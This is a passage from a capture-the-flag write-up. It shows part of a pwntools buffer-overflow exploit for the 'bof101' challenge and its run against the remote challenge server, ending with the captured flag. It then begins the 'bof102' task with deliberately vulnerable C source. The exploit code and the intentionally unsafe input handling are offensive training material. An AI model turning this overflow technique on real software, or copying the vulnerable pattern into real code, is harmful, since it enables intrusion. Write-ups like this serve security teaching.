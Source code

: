 ```
    else:
        p = process("./bof101")
        #p = gdb.debug("./bof101", gdbscript='break main')
    
    # Receiving until address leak
    print(p.recvuntil(b":"))
    leaked_addr = p.recvline()
    print(leaked_addr)
    leaked_addr = leaked_addr[1:-1]
    print(leaked_addr)
    print_flag = int(leaked_addr, 16)

	# Building our exploit:
    exploit = b"A" * 140 + p32(0xdeadbeef) + b"BBBBBBBB" + p64(print_flag) + b"\n"
    
    # Receive until input prompt
    print(p.recvuntil(b":"))
    print("[+] Sending our exploit")
    p.send(exploit)
    print("[+] Final output")
    # Note that if your program never ends, you will never see any output
    print(p.recvline())
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

Running the script against the remote instance gave us the flag:
```
python3 bof101.py remote
[+] Opening connection to bof101.sstf.site on port 1337: Done
[*] '/home/kali/hackersplaygroundctf/bof101'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
b"printflag()'s addr:"
b' 0x555555555229\n'
b'0x555555555229'
b'What is your name?\n:'
[+] Sending our exploit
[+] Final output
b' SCTF{n0w_U_R_B0F_3xpEr7}\n'
[*] Closed connection to bof101.sstf.site port 1337
```

### BOF102
This was the second warmup task. The source code looked as follows:
```
#include <stdio.h>
#include <stdlib.h>

char name[16];

void bofme() {
        char payload[16];
        puts("What's your name?");
        printf("Name > ");
        scanf("%16s", name);
        printf("Hello, %s.\n", name);
        puts("Do you wanna build a snowman?");
        printf(" > ");
```